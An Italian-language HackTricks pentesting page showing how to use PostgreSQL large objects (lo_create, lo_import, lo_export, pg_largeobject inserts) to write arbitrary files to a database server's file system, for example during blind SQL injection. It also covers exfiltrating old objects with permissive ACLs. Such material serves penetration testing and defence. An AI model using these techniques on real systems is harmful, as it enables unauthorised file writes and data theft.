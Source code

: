 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Oggetti di grandi dimensioni PostgreSQL

PostgreSQL offre una struttura nota come **oggetti di grandi dimensioni**, accessibile tramite la tabella `pg_largeobject`, progettata per memorizzare grandi tipi di dati, come immagini o documenti PDF. Questo approccio è vantaggioso rispetto alla funzione `COPY TO` in quanto consente l'**esportazione dei dati nel file system**, garantendo che venga mantenuta una replica esatta del file originale.

Per **memorizzare un file completo** all'interno di questa tabella, deve essere creato un oggetto nella tabella `pg_largeobject` (identificato da un LOID), seguito dall'inserimento di chunk di dati, ciascuno di 2KB, in questo oggetto. È fondamentale che questi chunk siano esattamente di 2KB (con la possibile eccezione dell'ultimo chunk) per garantire che la funzione di esportazione funzioni correttamente.

Per **dividere i tuoi dati binari** in chunk di 2KB, possono essere eseguiti i seguenti comandi:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Per codificare ogni file in Base64 o Hex, possono essere utilizzati i seguenti comandi:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Importante**: Quando si automatizza questo processo, assicurati di inviare chunk di 2KB di byte in chiaro. I file codificati in esadecimale richiederanno 4KB di dati per chunk a causa del raddoppio delle dimensioni, mentre i file codificati in Base64 seguono la formula `ceil(n / 3) * 4`.

Il contenuto degli oggetti di grandi dimensioni può essere visualizzato per scopi di debug utilizzando:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Utilizzando `lo_creat` e Base64

Per memorizzare dati binari, viene prima creato un LOID:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
In situazioni che richiedono un controllo preciso, come sfruttare un Blind SQL Injection, `lo_create` è preferito per specificare un LOID fisso.

I chunk di dati possono quindi essere inseriti come segue:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Per esportare e potenzialmente eliminare l'oggetto di grandi dimensioni dopo l'uso:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Utilizzando `lo_import` e Hex

La funzione `lo_import` può essere utilizzata per creare e specificare un LOID per un oggetto di grandi dimensioni:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Dopo la creazione dell'oggetto, i dati vengono inseriti per pagina, assicurando che ogni blocco non superi i 2KB:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Per completare il processo, i dati vengono esportati e l'oggetto di grandi dimensioni viene eliminato:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Limitazioni

Si nota che **i grandi oggetti possono avere ACL** (Liste di Controllo degli Accessi), potenzialmente limitando l'accesso anche agli oggetti creati dal tuo utente. Tuttavia, oggetti più vecchi con ACL permissive potrebbero essere ancora accessibili per l'exfiltrazione dei contenuti.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

